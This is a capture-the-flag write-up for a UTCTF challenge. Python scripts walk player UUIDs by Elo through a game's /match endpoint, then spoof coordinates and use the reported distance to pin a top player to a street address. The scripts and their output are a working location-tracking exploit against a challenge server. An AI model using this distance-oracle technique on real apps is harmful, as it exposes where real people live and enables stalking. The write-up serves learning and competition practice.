


### Description
The number 1 player in this game, geopy hit 3000 elo last week. I want to figure out where they train to be the best.

Flag is the address of this player (according to google maps), in the following format all lowercase:

`utflag{<street-address>-<city>-<zip-code>}`

For example, if the address is 110 Inner Campus Drive, Austin, TX 78705, the flag would be 

`utflag{110-inner-campus-drive-austin-78705}`
### Solution
In this challenge, we can retrieve a user's location via specific web server endpoints:
```
POST /battle?uuid=4f15cb78-e172-4ddf-b1eb-9631a0c3acb9&opponent=0bd714c0-16ec-4ae9-a40f-c0ed5e0c9f06&number=1
```
Response:
```
{"elo":965,"opponent_number":6510,"result":"loss"}
```
This request uses the player's UUID to fetch a random opponent's UUID. However, it always results in a loss.

Another useful endpoint is:
```
/match?uuid=4f15cb78-e172-4ddf-b1eb-9631a0c3acb9&lat=21.1451904&lon=105.5195136
```
Response:
```
{"distance":5217.403584100136,"elo":1090,"user":"Hair Darter 929","uuid":"cf1d2fae-d38f-4705-a349-ccd55b018142"}
```
This endpoint is exploitable since it allows us to manipulate the UUID and our location:

- We can extract high-Elo players by querying their UUIDs.

- We can spoof our location and measure distance changes to pinpoint geopy’s exact location.

### Step 1: Finding a High-Elo UUID

To find a high-Elo player (near 3000) and match with geopy, we can recursively search for a higher-Elo UUID:
```py
import warnings
import requests
from urllib3.exceptions import InsecureRequestWarning
warnings.filterwarnings("ignore", category=InsecureRequestWarning)

url = "https://numberchamp-challenge.utctf.live/"
uuid = "4f15cb78-e172-4ddf-b1eb-9631a0c3acb9"
lat = "21.1451904"
lon = "105.5195136"
currentelo = 1000
def finduuid():
    global uuid, lat, lon, currentelo
    currentUrl = f"{url}match?uuid={uuid}&lat={lat}&lon={lon}"
    try:
        r = requests.post(currentUrl, verify=False, timeout=1)
        data = r.json()
        print(data.get("elo"))
        if data.get("elo") > currentelo:
            currentelo = data.get("elo")
            uuid = data.get("uuid")
        if currentelo > 2950:
            print(data.get("uuid"))
            return
        finduuid()
    except requests.exceptions.Timeout:
        finduuid()

finduuid()
```
Terminal:
```
[$] <> python3 solve.py 
1024
1156
1189
1306
1305
1385
1497
1649
1680
1602
1708
1726
1744
1770
1929
2094
2270
2411
2557
2609
2751
2908
2923
2989
7eac8653-2bdf-4f9a-b215-9dee4e771aa0
```
Use this uuid and we get to match with `geopy`!



### Step 2: Locating geopy

Since the response includes distance, we can use a search algorithm to determine geopy's exact coordinates. In the event, I could just use Intruder to find the exact location by brute-forcing the lat and lon value.

After the event, I write a script to get the location:

```py
import warnings
import requests
from urllib3.exceptions import InsecureRequestWarning
warnings.filterwarnings("ignore", category=InsecureRequestWarning)

url = "https://numberchamp-challenge.utctf.live/"
uuid = "7eac8653-2bdf-4f9a-b215-9dee4e771aa0"
#lat = "21.1451904"
# lon = "105.5195136"
def sendReqToGetDist(lat, lon):
    global uuid
    currentUrl = f"{url}match?uuid={uuid}&lat={lat}&lon={lon}"
    try:
        r = requests.post(currentUrl, verify=False, timeout=1)
        data = r.json()
        if (data.get("user")) == "geopy": 
            dist = data.get("distance")
            print(f"value: {lat} and dist is: {dist}, user: {data.get("user")}")
            return float(dist)
        else:
            return sendReqToGetDist(lat, lon)
    except requests.exceptions.Timeout:
        sendReqToGetDist(lat, lon)
    except Exception as e:
        sendReqToGetDist(lat, lon)

def fancyDSA(l, r, depth=0, max_depth=20):
    step = (r - l) / 4
    currentMinDist = 9999
    currentMinVal = None

    for n in range(5):
        x = l + n * step
        tmpDist = None
        while tmpDist is None:
            tmpDist = sendReqToGetDist(x, -80)

        if  tmpDist < currentMinDist:
            currentMinDist = tmpDist
            currentMinVal = x


    inx = (r - l) / 4
    left_bound = currentMinVal - inx
    right_bound = currentMinVal + inx

    print(f"\n[Depth {depth}] Go to the next range")
    print(f"[*] Found minDist={currentMinDist:.4f} at x={currentMinVal:.4f}")
    print(f"[*] The new range is ({left_bound}, {right_bound})")

    fancyDSA(left_bound, right_bound, depth + 1, max_depth)

fancyDSA(-89, 89)
```

To find the lat value:
```
[$] <> python3 solve.py 
value: -89.0 and dist is: 8893.894580084816, user: geopy
value: -44.5 and dist is: 5814.242026366863, user: geopy
value: 0.0 and dist is: 2754.7768563625427, user: geopy
value: 0.0 and dist is: 2754.7768563625427, user: geopy
value: 44.5 and dist is: 350.18424403177676, user: geopy
value: 89.0 and dist is: 3397.355347742376, user: geopy

[Depth 0] Go to the next range
[*] Found minDist=350.1842 at x=44.5000
[*] The new range is (0.0, 89.0)
.
.
.
[Depth 10] Go to the next range
[*] Found minDist=159.1167 at x=39.9805
[*] The new range is (39.93701171875, 40.02392578125)
```

The lat value is approximately 39.9805

Modify the code a bit to get the lon value:
```
[$] <> python3 solve.py 
[Depth 0] Go to the next range
[*] Found minDist=39.7397 at x=-82.2500
[*] The new range is (-84.5, -80.0)

.
.
.

[Depth 10] Go to the next range
[*] Found minDist=2.7654 at x=-82.9971
[*] The new range is (-82.999267578125, -82.994873046875)
```

You can repeat the process
```
[Depth 7] Go to the next range
[*] Found minDist=0.0215 at x=39.9404
[*] The new range is (39.940237045288086, 39.94057655334473)
```
Running the above script 3 times give me the location: `39.9404, -82.9971`



flag: `utflag{1059-s-high-st-columbus-43206}`